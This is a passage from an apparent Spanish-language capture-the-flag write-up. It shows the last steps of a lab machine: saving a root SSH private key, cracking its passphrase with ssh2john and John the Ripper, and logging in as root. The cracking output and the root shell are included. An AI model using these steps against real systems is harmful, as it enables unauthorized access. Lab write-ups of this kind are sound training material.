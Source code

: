 Vemos que funciono, por lo que nos conectaremos por `ssh` mediante su clave privada.

```shell
nano id_rsa

#Dentro del nano
<CONTENIDO_ID_RSA>
```

Lo guardamos y establecemos los permisos adecuados para dicho archivo.

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa root@<IP>
```

Nos pedira la contraseña, por lo que le haremos fuerza bruta:

```shell
 ssh2john id_rsa > hash
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)     
1g 0:00:01:44 DONE (2025-01-27 12:39) 0.009601g/s 34.10p/s 34.10c/s 34.10C/s cougar..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Y veremos que nos saco la contraseña, por lo que volveremos a ejecutar el comando.

```shell
ssh -i id_rsa root@<IP>
```

Metemos como contraseña `honda1`.

Info:

```
Enter passphrase for key 'id_rsa': 
Linux 8411222316c4 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 22 10:36:51 2024 from 172.17.0.1
root@8411222316c4:~# whoami
root
```

Y con esto entrariamos directamente a la maquina como el usuario `root`, por lo que ya habriamos terminado la maquina.
